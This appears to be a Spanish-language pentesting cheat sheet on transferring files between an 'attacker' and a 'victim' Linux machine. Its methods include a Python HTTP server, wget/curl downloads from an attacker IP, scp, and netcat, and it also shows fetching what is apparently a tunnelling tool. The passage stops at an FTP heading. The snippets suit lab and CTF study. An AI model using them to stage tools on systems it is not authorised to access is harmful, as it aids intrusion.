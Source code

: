 USO :

maquina origen :

```bash
python -m http.server 80
```

maquina destino :

```bash
python script.py http://10.10.10.1/chise 
```

## VERSION COMPLETA

### 🐧 **Linux**

#### 🔼 Subir archivos a la víctima (desde la máquina atacante)

##### 1. Simple HTTP Server (Python)

- **Atacante:**

```bash
python -m SimpleHTTPServer 80
```

- **Víctima:**

```bash
wget http://192.168.1.35/FiletoTransfer
## o
curl -o FiletoTransfer http://192.168.1.35/FiletoTransfer
```

##### 2. SCP (requiere SSH y credenciales)

- **Atacante:**

```bash
scp FiletoTransfer tester@192.168.1.39:/home/tester/iron/
```

##### 3. Netcat

- **Víctima:**

```bash
nc -lvp 4444 > FiletoTransfer
```

- **Atacante:**

```bash
nc 192.168.1.39 4444 -w 3 < FiletoTransfer
```

##### 4. FTP (Twisted)
